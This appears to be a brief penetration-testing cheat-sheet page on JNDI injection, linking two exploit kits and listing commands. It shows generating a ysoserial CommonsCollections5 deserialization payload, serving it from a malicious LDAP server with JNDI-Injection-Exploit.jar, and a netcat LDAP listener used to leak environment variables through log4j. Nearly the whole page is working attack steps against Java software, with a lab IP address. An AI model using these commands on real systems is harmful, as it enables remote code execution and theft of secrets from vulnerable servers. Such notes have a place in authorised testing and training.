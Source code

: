 # jndi

{% embed url="https://github.com/exp1orer/JNDI-Inject-Exploit" %}

{% embed url="https://github.com/pimps/JNDI-Exploit-Kit" %}

```
java -jar ysoserial.jar CommonsCollections5 'ping -c 1 10.10.14.32' > ping.ser
ysoserial don't work well with commands with ; or | or &
github.com/pimps/ysoserial-modified fix the problem 

sudo java -jar JNDI-Injection-Exploit.jar -P ping.ser -L 10.10.14.32:389

use nc to comunicate with ldap for log4j env leakage
echo -e '0\x0c\x02\x01\x01a\x07\x0a\x01\x00\x04\x00\x04\00' | nc -nvv -l -p 389 | xxd
```
